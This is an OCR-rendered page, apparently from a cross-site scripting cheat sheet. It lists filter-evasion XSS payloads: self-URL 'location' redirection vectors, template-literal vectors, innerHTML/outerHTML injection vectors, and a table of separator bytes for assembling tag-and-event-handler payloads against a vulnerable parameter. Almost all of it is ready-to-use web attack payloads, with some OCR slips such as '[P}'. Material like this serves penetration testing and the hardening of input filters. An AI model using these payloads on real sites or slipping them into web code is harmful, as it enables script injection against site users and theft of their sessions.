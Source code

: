 ```
## Location with Self URL (last is FF Only)
It’s required to replace [P} with the vulnerable parameter where input is used. Encode `&` as
%26 in URLs.
```
<svg id=?[P]=<svg/onload=alert(1)+ onload=location=id>
<j/onmouseover=location=textContent>?[P]=&lt;svg/onload=alert(1)>hoverme!</j>
<j/onmouseover=location+=textContent>&[P]=&lt;svg/onload=alert(1)>hoverme!</j>
<j&[P]=<svg+onload=alert(1)/onmouseover=location+=outerHTML>hoverme!
</j&[P]=<svg+onload=alert(1)>
&[P]=&lt;svg/onload=alert(1)><j/
onmouseover=location+=document.body.textContent>hoverme!</j>
Location with Template Literal
${alert(1)}<javascript:`//onmouseover=location=tagName+URL>hoverme!
${alert(1)}<j/onmouseover=location=innerHTML+URL>javascript:`//hoverme!
${alert(1)}<javas/onmouseover=location=tagName+innerHTML+URL>cript:`//hoverme!
${alert(1)}`<javascript:`//
onmouseover=location=tagName+previousSibling.nodeValue>hoverme!
${alert(1)}`<javas/
onmouseover=location=tagName+innerHTML+previousSibling.nodeValue>cript:`hoverme!
```


## Inner & Outer HTML Properties Alternative
These last vectors make use of innerHTML and outerHTML properties of elements to get 
the same result as the location ones. But they requre to create a complete HTML vector 
instead of a `javascript:alert(1)` string. The following collections of elements can be used 
here with index 0 to make it easier to follow: all[0], anchors[0], embeds[0], forms[0], 
images[0], links[0] and scripts[0]. They all can replace head or body elements used below.
```
<svg id=<img/src/onerror&#61alert(1)&gt; onload=head.innerHTML=id>
<svg id=<img/src/onerror&#61alert(1)&gt; onload=body.outerHTML=id>
```


## XSS Vector Schemes
There are basically 3 different schemes to build a HTML-based XSS vector. All chars and 
bytes used to separate the fields are shown in drop down according to a valid syntax. 
%0X means every byte from %00 up to %0F  as well as %1X. `ENT` means HTML ENTITY 
and it means that any of the allowed chars or bytes can be used in their HTML entity forms 
(string and numeric). 
Lastly, notice the `javascript` word might have some bytes in between or not and all of its 
characters can also be URL or HTML encoded. 




## Vector Scheme 1 (tag name + handler)
```<name   [  ] handler     [  ] = [  ] js [  ]>
            %09              %09    %09    %09
            %0A              %0A    %0A    %0A
            %0C              %0C    %0B    %0B
            %0D              %0D    %0C    %0C
            %20              %20    %0D    %0D
            %2F              %20    %20 
            /                %22    %22 
            +                %27    %27 
                             '       '
                             "       "
                             +       +
```
